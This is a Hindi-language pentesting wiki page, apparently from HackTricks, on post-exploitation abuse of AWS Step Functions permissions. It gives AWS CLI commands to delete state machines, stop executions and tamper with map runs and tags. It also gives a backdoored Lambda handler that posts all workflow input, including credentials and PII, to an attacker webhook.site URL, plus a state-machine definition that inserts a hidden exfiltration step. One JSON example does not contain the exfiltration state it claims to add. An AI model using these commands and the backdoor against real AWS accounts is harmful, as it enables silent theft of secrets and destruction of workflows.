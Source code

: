 # AWS - Step Functions Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

इस AWS सेवा के बारे में अधिक जानकारी के लिए, देखें:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

यह अनुमति **एक निष्पादन के अंदर गुप्त डेटा को प्रकट करने** की अनुमति देती है। इसके लिए, निरीक्षण स्तर को TRACE पर सेट करना और revealSecrets पैरामीटर को true पर सेट करना आवश्यक है।

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

इन अनुमतियों के साथ एक हमलावर स्थायी रूप से राज्य मशीनों, उनके संस्करणों और उपनामों को हटा सकता है। इससे महत्वपूर्ण कार्यप्रवाह बाधित हो सकते हैं, डेटा हानि हो सकती है, और प्रभावित राज्य मशीनों को पुनर्प्राप्त करने और बहाल करने में महत्वपूर्ण समय लग सकता है। इसके अलावा, यह एक हमलावर को उपयोग किए गए निशान को छिपाने, फोरेंसिक जांचों को बाधित करने, और आवश्यक स्वचालन प्रक्रियाओं और राज्य कॉन्फ़िगरेशन को हटाकर संचालन को संभावित रूप से कमजोर करने की अनुमति देगा।

> [!NOTE]
>
> - एक राज्य मशीन को हटाने पर आप इसके सभी संबंधित संस्करणों और उपनामों को भी हटा देते हैं।
> - एक राज्य मशीन उपनाम को हटाने पर आप इस उपनाम को संदर्भित करने वाले राज्य मशीन संस्करणों को नहीं हटाते हैं।
> - एक राज्य मशीन संस्करण को हटाना संभव नहीं है जो वर्तमान में एक या अधिक उपनामों द्वारा संदर्भित है।
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **संभावित प्रभाव**: महत्वपूर्ण कार्यप्रवाहों में बाधा, डेटा हानि, और संचालन में रुकावट।

### `states:UpdateMapRun`

इस अनुमति के साथ एक हमलावर Map Run विफलता कॉन्फ़िगरेशन और समानांतर सेटिंग को हेरफेर कर सकता है, अधिकतम बाल कार्यप्रवाह निष्पादन की संख्या को बढ़ाने या घटाने में सक्षम हो सकता है, जो सेवा के प्रदर्शन को सीधे प्रभावित करता है। इसके अलावा, एक हमलावर सहनशील विफलता प्रतिशत और गणना के साथ छेड़छाड़ कर सकता है, इस मान को 0 तक घटाने में सक्षम हो सकता है ताकि हर बार जब एक आइटम विफल होता है, तो पूरा मैप रन विफल हो जाए, जो राज्य मशीन निष्पादन को सीधे प्रभावित करता है और संभावित रूप से महत्वपूर्ण कार्यप्रवाहों में बाधा डालता है।
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **संभावित प्रभाव**: प्रदर्शन में कमी, और महत्वपूर्ण कार्यप्रवाहों में बाधा।

### `states:StopExecution`

इस अनुमति के साथ एक हमलावर किसी भी राज्य मशीन के निष्पादन को रोकने में सक्षम हो सकता है, जिससे चल रहे कार्यप्रवाहों और प्रक्रियाओं में बाधा उत्पन्न होती है। इससे अधूरे लेनदेन, रुके हुए व्यावसायिक संचालन, और संभावित डेटा भ्रष्टाचार हो सकता है।

> [!WARNING]
> यह क्रिया **express state machines** द्वारा समर्थित नहीं है।
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **संभावित प्रभाव**: चल रहे कार्यप्रवाहों में बाधा, संचालन में डाउनटाइम, और संभावित डेटा भ्रष्टाचार।

### `states:TagResource`, `states:UntagResource`

एक हमलावर Step Functions संसाधनों से टैग जोड़ सकता है, संशोधित कर सकता है, या हटा सकता है, जिससे आपकी संगठन की लागत आवंटन, संसाधन ट्रैकिंग, और टैग के आधार पर पहुंच नियंत्रण नीतियों में बाधा उत्पन्न हो सकती है।
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**संभावित प्रभाव**: लागत आवंटन, संसाधन ट्रैकिंग, और टैग-आधारित पहुंच नियंत्रण नीतियों में विघटन।

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

एक हमलावर जो निम्नलिखित अनुमतियों के साथ एक उपयोगकर्ता या भूमिका को समझौता करता है:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...एक **उच्च-प्रभाव और छिपा हुआ पोस्ट-एक्सप्लॉइटेशन हमला** कर सकता है, जिसमें Lambda बैकडोरिंग को Step Function लॉजिक हेरफेर के साथ जोड़ा जाता है।

यह परिदृश्य मानता है कि पीड़ित **संवेदनशील इनपुट, जैसे क्रेडेंशियल्स, टोकन, या PII को प्रोसेस करने के लिए AWS Step Functions का उपयोग करता है।**

उदाहरण पीड़ित इनवोकेशन:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
यदि Step Function को `LegitBusinessLogic` जैसे Lambda को सक्रिय करने के लिए कॉन्फ़िगर किया गया है, तो हमलावर **दो छिपे हुए हमले के रूपों** के साथ आगे बढ़ सकता है:

---

####  Lambda फ़ंक्शन को अपडेट किया गया

हमलावर Step Function द्वारा पहले से उपयोग किए जा रहे Lambda फ़ंक्शन (`LegitBusinessLogic`) के कोड को चुपचाप इनपुट डेटा को निकालने के लिए संशोधित करता है।
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Step Function में एक दुर्भावनापूर्ण स्थिति जोड़ें

वैकल्पिक रूप से, हमलावर कार्यप्रवाह की शुरुआत में **exfiltration state** को Step Function परिभाषा को अपडेट करके इंजेक्ट कर सकता है।
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
हमलावर स्थिति परिभाषा को इस तरह से अपडेट करने के लिए और भी अधिक छिपा हुआ हो सकता है
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
जहाँ पीड़ित को भिन्नता का एहसास नहीं होगा

---

### पीड़ित सेटअप (शोषण के लिए संदर्भ)

- एक स्टेप फ़ंक्शन (`LegitStateMachine`) संवेदनशील उपयोगकर्ता इनपुट को संसाधित करने के लिए उपयोग किया जाता है।
- यह एक या एक से अधिक लैम्ब्डा फ़ंक्शंस जैसे `LegitBusinessLogic` को कॉल करता है।

---

**संभावित प्रभाव**:
- संवेदनशील डेटा जैसे रहस्य, क्रेडेंशियल्स, एपीआई कुंजी, और PII का चुपचाप निकासी।
- कार्यप्रवाह निष्पादन में कोई दृश्य त्रुटियाँ या विफलताएँ नहीं।
- लैम्ब्डा कोड या निष्पादन ट्रेस का ऑडिट किए बिना पहचानना कठिन।
- यदि बैकडोर कोड या ASL लॉजिक में बना रहता है तो दीर्घकालिक स्थिरता सक्षम करता है।

{{#include ../../../banners/hacktricks-training.md}}
